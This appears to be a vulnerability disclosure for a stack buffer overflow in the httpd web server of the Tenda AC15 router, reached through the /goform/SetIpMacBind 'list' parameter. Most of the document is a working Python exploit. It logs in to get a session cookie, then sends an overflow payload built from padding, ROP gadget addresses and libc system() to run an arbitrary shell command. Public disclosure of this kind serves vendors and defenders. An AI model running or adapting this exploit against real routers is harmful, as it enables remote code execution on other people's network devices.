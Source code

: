 Vendor of the products:　　Tenda 

Reported by: 　　　　　     zhlu32

Affected products:  AC15 V15.03.05.18_multi

# Overview
An issue was discovered on Tenda AC15 V15.03.05.18_multi device. There is a buffer overflow vulnerability in the router’s web server – httpd. While processing the **/goform/SetIpMacBind** list parameter for a post request, the value is directly used in a strcpy to a local variable placed on the stack, which overrides the return address of the function. The attackers can construct a payload to carry out arbitrary code attacks.

# EXP

    import requests
    from urllib import parse
    from pwn import *
    
    main_url = "http://172.16.211.18:20080"
    
    def login_success():
        global password
        url = main_url + "/login/Auth"
        headers = {'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8'}
        data = {"username": "admin", "password": "ce80adc6ed1ab2b7f2c85b5fdcd8babc"}
        data = parse.urlencode(data)
    
        response = requests.post(url=url, headers=headers, data=data, allow_redirects=False)
        password = response.cookies.get_dict().get("password")
        if password is None:
            login_success()
        else:
            print(password)
    
    
    def poc():
        url = main_url + "/goform/SetIpMacBind"
    
        cmd = b'echo yab.....'
        libc_base = 0x40202000
        system_offset = 0x0005a270
        system_addr = libc_base + system_offset
        gadget1 = libc_base + 0x00018298
        gadget2 = libc_base + 0x00040cb8
    
        data = b'bindnum=1&list=' + b'A' * (428) + p32(gadget1) + p32(system_addr) + p32(gadget2) + cmd
        data = data.decode('latin1')
    
        headers = {'Cookie': 'password=' + password}
        response = requests.post(url=url, headers=headers, data=data, allow_redirects=False)
        print(response)
    
    
    if __name__ == "__main__":
        login_success()
        poc()


# Details
## code in httpd
![avatar](img/code.png)
## Attack effect
![avatar](img/effect.png)